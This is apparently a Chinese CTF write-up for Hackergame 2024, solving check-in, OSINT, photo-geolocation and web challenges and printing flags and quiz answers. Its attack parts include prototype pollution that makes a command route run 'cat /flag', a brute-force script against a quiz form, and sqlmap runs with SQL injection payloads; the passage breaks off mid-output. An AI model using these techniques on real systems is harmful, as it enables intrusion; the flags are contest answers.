不多bb，直接开始。

# 签到

> 让我们说……各种语言，开始今年的冒险！

访问题目后，我们需要输入12种语言的“启动”。


真的要安装12种输入法吗？对，对吗？

直接启动，先听歌：



听歌结束后，注意到：http://202.38.93.141:12024/?pass=`false`

把false改为true即获得flag：flag{WE1cOME-to-h@CKErgAMe-anD-eNjoY-hACkiN9-z0Z4}


```
[Verse]
Hackergame 哦 Hackergame 哦 Hackergame
有了你 生活美好 没烦恼
Hackergame传奇 奇妙至极
最棒比赛 人人赞叹你

[Chorus]
嗯嗯嗯嗯嗯 Hackergame比赛 群英齐聚
Hackergame称霸 思路不止
最棒比赛 最妙体验
欢呼此时！

[Verse 2]
如果卡关 那可不对
今晚没拿 flag 我就会吼叫
无论白天 还是夜晚
Hackergame的挑战 让头脑清醒

[Chorus]
嗯嗯嗯嗯嗯 Hackergame比赛 群英齐聚
Hackergame称霸 思路不止
最棒比赛 最妙体验
欢呼此时！

[Bridge]
在酷暑或寒冬 Hackergame的魅力
让热情浓 让热情浓
解题如梦 像中大奖的狂喜

[Chorus]
嗯嗯嗯嗯嗯 Hackergame哦 Hackergame哦 Hackergame
最棒比赛 最妙体验
欢呼此时！
```

# 喜欢签到的CTFer你们好呀

>  喜欢做签到的 CTFer 你们好呀，我是一道更**典型**的 checkin：有两个 flag 就藏在中国科学技术大学校内 CTF 战队的招新主页里！

USTC CTF招新主页在哪呢？访问Hackergame主页：



进去之后是一个网页终端。



输入help查看一下可用命令：

```
Welcome! Here are all the available commands:

=========== Available Commands ===============

about awards banner bing cat cd echo
email env github help ls members nvim
readme repo sudo sumfetch vi whoami 

==============================================

Helpful Tips:
    [tab]: trigger completion.
    [ctrl+l]/clear: clear terminal.
    Type 'sumfetch' to display summary.

Credit: Based on Cveinnt's awesome LiveTerm.
```

首先执行sudo看看，发现会跳转到B站观看《奶龙》动画。右下角有备案号：


~~故flag为`flag{0910417220504011}`，提交到比赛平台提示“答案错误”，等完赛后你就会出现在搞笑flag里。~~

## Checkin Again

上述命令中可以查看信息的还有`env` `ls` `cat`等指令。先看看env：

```
ctfer@ustc-nebula:$ ~
env
PWD=/root/Nebula-Homepage
ARCH=loong-arch
NAME=Nebula-Dedicated-High-Performance-Workstation
OS=NixOS❄️
FLAG=flag{actually_theres_another_flag_here_trY_to_f1nD_1t_y0urself___join_us_ustc_nebula}
REQUIREMENTS=1. you must come from USTC; 2. you must be interested in security!
```

即得Flag 1。

## Checkin Again & Again

```
ctfer@ustc-nebula:~ $ ls -la
.flag
.oh-you-found-it/
Awards
Members
Welcome-to-USTC-Nebula-s-Homepage/
and-We-are-Waiting-for-U/

ctfer@ustc-nebula:~ $ cat .flag
flag{0k_175_a_h1dd3n_s3c3rt_f14g___please_join_us_ustc_nebula_anD_two_maJor_requirements_aRe_shown_somewhere_else}
```

ez。

# 猫咪问答（Hackergame 十周年纪念版）

1. 在 Hackergame 2015 比赛开始前一天晚上开展的赛前讲座是在哪个教室举行的？**（30 分）**

   在USTC LUG网站一番探索，发现在`https://lug.ustc.edu.cn/wiki/lug/events/hackergame/`下有第二届（2014+1）Hackergame的活动归档：

   

   进入此页面，注意到

   >比赛时间安排
   >
   >10 月 17 日 周六晚上 19:30 3A204 网络攻防技巧讲座 10 月 18 日 周日上午 10:00 初赛 在线开展 10 月 24 日 周六凌晨 00:00 初赛结束 后续开展复赛

​	故答案为3A204。

2. 众所周知，Hackergame 共约 25 道题目。近五年（不含今年）举办的 Hackergame 中，题目数量最接近这个数字的那一届比赛里有多少人注册参加？**（30 分）**

   在Hackergame主页找到往年新闻稿：

   

   结合往年Write-Up中的题目数量得知，答案为2682人，是2019年的Hackergame（第六届）。

3. Hackergame 2018 让哪个热门检索词成为了科大图书馆当月热搜第一？**（20 分）**

   查找2018年Hackergame猫咪问答的writeup：`https://github.com/ustclug/hackergame2018-writeups/blob/master/official/ustcquiz/README.md`

   > 在中国科大图书馆中，有一本书叫做《程序员的自我修养:链接、装载与库》，请问它的索书号是？
   >
   > 打开[中国科大图书馆主页](https://lib.ustc.edu.cn/)，直接搜索“程序员的自我修养”即可。

​	故答案为“程序员的自我修养”。

4. 在今年的 USENIX Security 学术会议上中国科学技术大学发表了一篇关于电子邮件伪造攻击的论文，在论文中作者提出了 6 种攻击方法，并在多少个电子邮件服务提供商及客户端的组合上进行了实验？**（10 分）**

   

   答案为336。

5. 10 月 18 日 Greg Kroah-Hartman 向 Linux 邮件列表提交的一个 patch 把大量开发者从 MAINTAINERS 文件中移除。这个 patch 被合并进 Linux mainline 的 commit id 是多少？**（5 分）**

   > # Commit 6e90b67
   >
   > committed 3 weeks ago
   >
   > MAINTAINERS: Remove some entries due to various compliance requirements.
   >
   > Remove some entries due to various compliance requirements. They can come back in the future if sufficient documentation is provided. Link: https://lore.kernel.org/r/2024101835-tiptop-blip-09ed@gregkh Signed-off-by: Greg Kroah-Hartman <gregkh@linuxfoundation.org>

​	不知道这个可以重开了。答案为6e90b6。

​	Code is cheap. Show me your nationality.

6. 大语言模型会把输入分解为一个一个的 token 后继续计算，请问这个网页的 HTML 源代码会被 Meta 的 Llama 3 70B 模型的 tokenizer 分解为多少个 token？**（5 分）**

   直接右键复制源代码，然后前往chat.groq.com获得的token数并不对（1840）。实际比赛中群内也有大量反馈无法获得正确答案。但再加上某个在线Llama 3 tokenizer的计数，我们已经可以大体确定tokens范围（1800-1900）。

   直接爆破。抓包：

   ```bash
   curl 'http://202.38.93.141:13030/' \
     -H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7' \
     -H 'Accept-Language: zh,en-US;q=0.9,en;q=0.8,zh-CN;q=0.7' \
     -H 'Cache-Control: no-cache' \
     -H 'Connection: keep-alive' \
     -H 'Content-Type: application/x-www-form-urlencoded' \
     -H 'Cookie: session=YuShengJun' \
     -H 'DNT: 1' \
     -H 'Origin: http://202.38.93.141:13030' \
     -H 'Pragma: no-cache' \
     -H 'Referer: http://202.38.93.141:13030/' \
     -H 'Upgrade-Insecure-Requests: 1' \
     -H 'User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/130.0.0.0 Safari/537.36' \
     --data-raw 'q1=3A204&q2=2682&q3=%E7%A8%8B%E5%BA%8F%E5%91%98%E7%9A%84%E8%87%AA%E6%88%91%E4%BF%AE%E5%85%BB&q4=336&q5=6e90b6&q6=1833' \
     --insecure
   ```

   写一个python脚本对q6参数进行爆破。

   ```python
   import requests
   
   # 目标URL
   url = 'http://202.38.93.141:13030/'
   
   # 请求头
   headers = {
       'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7',
       'Accept-Language': 'zh,en-US;q=0.9,en;q=0.8,zh-CN;q=0.7',
       'Cache-Control': 'no-cache',
       'Connection': 'keep-alive',
       'Content-Type': 'application/x-www-form-urlencoded',
       'Cookie': 'session=YuShengJun',
       'DNT': '1',
       'Origin': 'http://202.38.93.141:13030',
       'Pragma': 'no-cache',
       'Referer': 'http://202.38.93.141:13030/',
       'Upgrade-Insecure-Requests': '1',
       'User-Agent': 'Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/130.0.0.0 Safari/537.36'
   }
   
   # 原始数据
   data = {
       'q1': '3A204',
       'q2': '2682',
       'q3': '程序员的自我修养',
       'q4': '336',
       'q5': '6e90b6',
       'q6': ''
   }
   
   # 检查字符串
   check_string = "本次测验总得分为 95"
   
   # 遍历q6值
   for q6_value in range(1800, 1901):
       data['q6'] = str(q6_value)
       response = requests.post(url, headers=headers, data=data)
       
       print(f"Sent request with q6={q6_value}")
       print("Response status code:", response.status_code)
       
       if check_string not in response.text:
           print(f"Found q6 value that does not match the check string: {q6_value}")
           break
       
       print("Response content:", response.text[:200])  # 打印响应的前200个字符
   ```

   得答案为1833。

# 打不开的盒

使用`https://www.3dpea.com/cn/view-STL-online`在线浏览盒子STL模型，摄像头伸进去即可看到flag。


# 比大小王

打开网页后开F12，注意到最底部有script：

```javascript
    function loadGame() {
      fetch('/game', {
        method: 'POST',
        headers: {
          'Content-Type': 'application/json',
        },
        body: JSON.stringify({}),
      })
        .then(response => response.json())
        .then(data => {
          state.values = data.values;
          // ......
```

查看网络包：



题目数据存储在state.values内。因此，只需要在倒计时结束后打开F12执行

```javascript
submit(state.values.map(([a,b]) => a<b? '<' : '>' ))
```

即可。注意如果在比赛开始倒计时结束前就提交，会被“检测到时空穿越”。

# 旅行照片 4.0

> 「又要重复吗，绝望的轮回」

## LEO_CHAN?

> > 你们的生活到底真的假的呀？每天要么就是看漫展看偶像看 live 喝酒吃烧烤，要么就是这里那里旅游。阵容一宣，说冲就冲，群一拉，机票一买，钱就像大风刮来的，时间好像一直有。c\*\*4 你们也去，mu\*\*ca 你们也去，m\*\*o 你们也去，to\*ea\*i 你们也去。我怎么一天到晚都在上班啊，你们那到底是怎么弄的呀？教教我行不行
>
> 
>
> 

1. **照片拍摄的位置距离中科大的哪个校门更近？（格式：**`X校区Y门`**，均为一个汉字）**

   高德搜索“科里科气科大驿站”，既然是距离中科大哪个门最近，那肯定是科大站。答案为东校区西门。


2. 话说 Leo 酱上次出现在桁架上是……科大今年的 ACG 音乐会？活动日期我没记错的话是？（格式：`YYYYMMDD`）

   B站搜索“中科大ACG音乐会”，找到“中科大LEO动漫协会”账号，翻找动态发现：

   

   答案为20240519。

## FULL_RECALL

> 「拍照的时候带着 LEO 酱看起来是个不错的选择」，回忆完上次的 ACG 音乐会，你这样想到，不过说到底要去哪里呢？
>
> 这样想着，你打开自己的相册翻找，「我记得之前保存了几个还不错的地方……」
>
> 
>
> 
>
> 嗯？奇怪的记忆增加了。诶，我到过这些地方吗？而且这两张照片拍摄地的距离……是不是有点远？

3. **这个公园的名称是什么？（不需要填写公园所在市区等信息）**

   注意到垃圾桶上有“六安园林”字样。

   

   注意到公园步道上有彩虹，故搜索“六安  彩虹  步道”：

   

   答案为中央公园。

   

4. **这个景观所在的景点的名字是？（三个汉字）**

   使用Google Lens搜索目标图片：

   

   答案为坛子岭。

## OMINOUS_BELL

> 调查自己还是头一回，多新鲜啊。不过，还没来得及理清头绪，你突然收到了来自学长的信息：
>
> > 
> >
> > 来练练手，看看能挖出什么有趣的东西。
>
> 糟了，三番五次调查学长被他发现了？不过，这个照片确实有趣，似乎有辆很标志性的……**四编组动车**？

6. 左下角的动车组型号是？

   注意题目中有提到“四编组动车”，即CRH6A-A或CRH6F-A系列。

   CRH6A-A主要用于成都“天府号”，涂装如下：

   

   很明显涂装不符合。

   CRH6F-A主要用于北京、台州、连云港、阳泉、海口等市域铁路。发现北京“怀密号”的涂装符合图片特征：

   

   故答案为CRH6F-A。位于北京。

7. **距离拍摄地最近的医院是？（无需包含院区、地名信息，格式：XXX医院）**

   注意到图片内清一色停放动车组，且：

   

   CR-复兴号。故此处为动车所。

   高德搜索“北京 动车所”，并寻找附近有医院的动车所。注意到：

   

   卫星图特征吻合。

   

   故答案为 积水潭医院。

   

# 不宽的宽字符

> 我認爲小A應該被取消程序員資格！
>
> ——發自我的iPhone

下面我们以“沟槽的”指代小A。

注意到沟槽的代码：

```cpp
 // Convert to WIDE chars
    wchar_t buf[256] = { 0 };
    MultiByteToWideChar(CP_UTF8, 0, inputBuffer, -1, buf, sizeof(buf) / sizeof(wchar_t));

    std::wstring filename = buf;
```

沟槽的在此处将从Console读入的窄字符转换为宽字符。由于char类型占1个Byte，wchar_t占2个Bytes，因此，对于这样一段数据：

```
31 32 33 34
```

把它转换为小端宽字符（UTF-16LE）后，实际数据即为：

```
31 00 32 00 33 00 34 00
```

> 可惜的是，某些版本的 C++ 编译器以及其自带的头文件中，文件名是 `char` 类型的，因此这并不正确。这时候小 A 灵光一闪，欸🤓👆，我为什么不做一个转换呢？于是：
>
> ```
> std::wifstream f((char*)filename);
> ```
>
> 随便找了一个文件名测试过无误后，小 A 对自己的方案非常自信，大胆的在各个地方复用这段代码。然而，代价是什么呢？

我不知沟槽的是如何测试通过的。假如把上面的宽字节强制转为窄字节后，

```cpp
std::wifstream file;
file.open((char*)filename.c_str());
```

file.open读入char类型文件名时，会在0x00处截断。因此，当你在Console输入1234时，实际文件名其实是：1

```
31    (00 32 00 33 00 34 00  被截断)
```

但这不妨碍我们获得沟槽的flag。至此思路已非常简单：我们只需要输入一个小端宽字节数据，使其转换为窄字节后是Z:/theflag，问题就解决了。

> 你可能注意到我一直在对Windows程序说“UTF”，甚至上面的文件名是“/”而不是“\”。这是因为沟槽的程序是在linux docker下使用wine运行的。

所以，我们只需要把“Z:/theflag”在UTF-8下转换为HEX：



然后把得到的HEX后面加上`00XX`以隔断char。XX随便填，最好是能解出来个可见字符。再把处理好的HEX在UTF16-LE下转换回来：


把解出来的内容输入进去就能拿到flag了。

# PowerfulShell


感兴趣可看官方题解。

# Node.JS is Web Scale


打开后是一个Node.JS KV Store。我们的目标是拿到`/flag`。

打开下面的View source code看一下源代码：

```javascript
let cmds = {
  getsource: "cat server.js",
  test: "echo 'hello, world!'",
};

// GET /execute - Run commands which are constant and obviously safe.
app.get("/execute", (req, res) => {
  const key = req.query.cmd;
  const cmd = cmds[key];
  res.setHeader("content-type", "text/plain");
  res.send(execSync(cmd).toString());
});
```

可以通过执行/execute?cmd={key}，以执行在cmds中存储的命令。由于cmds是`constant`，故该题目认为执行指令的route是`obviously safe`。

but at what cost?

在Javascript中，`__proto__`是对象的原型，只要有对象都有`__proto__`，且对象继承`__proto__`的属性和方法。当你创建两个对象时，它们都会有一个内部参数`[[Prototype]]`，且对于以字面形式创建的两个普通对象，它们的原型都是`Object.prototype`。因此，假如有两个对象：

```javascript
let a = {'foo': 'bar'};
let b = {'foo': 'baz'};
```

当你修改b的原型中的属性时：

```javascript
b.__proto__.bar = 'foo';
```

实际修改的是它们共有的原型上的bar属性。当你试图读取a.bar时，由于a没有bar属性，它便会沿着继承链向原型寻找bar，从而获得被b添加的bar属性：

```javascript
console.log(a.bar); // 输出: 'foo'; 实际为a.__proto__.bar
```

故思路已非常清晰：我们只需要向页面提供的键值对的原型插入恶意代码，即可访问到`/flag`。



访问`/execute?cmd=evil`即可执行`cat /flag`。



# PaoluGPT

## 窥视未知

为什么先写第二小问？因为我先做出第二小问。

下载题目附件，打开main.py，一眼大开门：

```python
@app.route("/view")
def view():
    conversation_id = request.args.get("conversation_id")
    results = execute_query(f"select title, contents from messages where id = '{conversation_id}'")
    return render_template("view.html", message=Message(None, results[0], results[1]))
```

有过滤吗？

```python
# database.py
import sqlite3

def execute_query(s: str, fetch_all: bool = False):
    conn = sqlite3.connect("file:/tmp/data.db?mode=ro", uri=True)
    cur = conn.cursor()
    res = cur.execute(s)
    if fetch_all:
        return res.fetchall()
    else:
        return res.fetchone()
```


哥们！！（原子吐息）上sqlmap，干他！

抓包！

```
curl 'https://chal01-q45kxsw2.hack-challenge.lug.ustc.edu.cn:8443/view?conversation_id=76c4d252-ddad-48cf-ae64-3b0dd5f973db' \
  -H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7' \
  -H 'Accept-Language: zh,en-US;q=0.9,en;q=0.8,zh-CN;q=0.7' \
  -H 'Cache-Control: no-cache' \
  -H 'Connection: keep-alive' \
  -H 'Cookie: _ga=GA1.1.1498233831.1719196175; _ga_Q8WSZQS8E1=GS1.1.1730476974.5.0.1730476982.52.0.1779972184; _ga_R7BPZT6779=GS1.1.1731134815.10.1.1731135175.60.0.794122736; session=YuShengJun' \
  -H 'DNT: 1' \
  -H 'Pragma: no-cache' \
  -H 'Referer: https://chal01-q45kxsw2.hack-challenge.lug.ustc.edu.cn:8443/list' \
  -H 'Sec-Fetch-Dest: document' \
  -H 'Sec-Fetch-Mode: navigate' \
  -H 'Sec-Fetch-Site: same-origin' \
  -H 'Sec-Fetch-User: ?1' \
  -H 'Upgrade-Insecure-Requests: 1' \
  -H 'User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/130.0.0.0 Safari/537.36' \
  -H 'sec-ch-ua: "Chromium";v="130", "Google Chrome";v="130", "Not?A_Brand";v="99"' \
  -H 'sec-ch-ua-mobile: ?0' \
  -H 'sec-ch-ua-platform: "Linux"'
```

上map！

```
sqlmap -u 'https://chal01-q45kxsw2.hack-challenge.lug.ustc.edu.cn:8443/view?conversation_id=76c4d252-ddad-48cf-ae64-3b0dd5f973db' \
  --headers="Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7" \
  --headers="Accept-Language: zh,en-US;q=0.9,en;q=0.8,zh-CN;q=0.7" \
  --headers="Cache-Control: no-cache" \
  --headers="Connection: keep-alive" \
  --headers="DNT: 1" \
  --headers="Pragma: no-cache" \
  --headers="Referer: https://chal01-q45kxsw2.hack-challenge.lug.ustc.edu.cn:8443/list" \
  --headers="Sec-Fetch-Dest: document" \
  --headers="Sec-Fetch-Mode: navigate" \
  --headers="Sec-Fetch-Site: same-origin" \
  --headers="Sec-Fetch-User: ?1" \
  --headers="Upgrade-Insecure-Requests: 1" \
  --headers="User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/130.0.0.0 Safari/537.36" \
  --headers="sec-ch-ua: \"Chromium\";v=\"130\", \"Google Chrome\";v=\"130\", \"Not?A_Brand\";v=\"99\"" \
  --headers="sec-ch-ua-mobile: ?0" \
  --headers="sec-ch-ua-platform: \"Linux\"" \
  --cookie="_ga=GA1.1.1498233831.1719196175; _ga_Q8WSZQS8E1=GS1.1.1730476974.5.0.1730476982.52.0.1779972184; _ga_R7BPZT6779=GS1.1.1731134815.10.1.1731135175.60.0.794122736; session=YuShengJun"
```

```
sqlmap identified the following injection point(s) with a total of 55 HTTP(s) requests:
---
Parameter: conversation_id (GET)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: conversation_id=76c4d252-ddad-48cf-ae64-3b0dd5f973db' AND 9576=9576 AND 'VVao'='VVao

    Type: time-based blind
    Title: SQLite > 2.0 AND time-based blind (heavy query)
    Payload: conversation_id=76c4d252-ddad-48cf-ae64-3b0dd5f973db' AND 9128=LIKE(CHAR(65,66,67,68,69,70,71),UPPER(HEX(RANDOMBLOB(500000000/2)))) AND 'FxGg'='FxGg

    Type: UNION query
    Title: Generic UNION query (NULL) - 2 columns
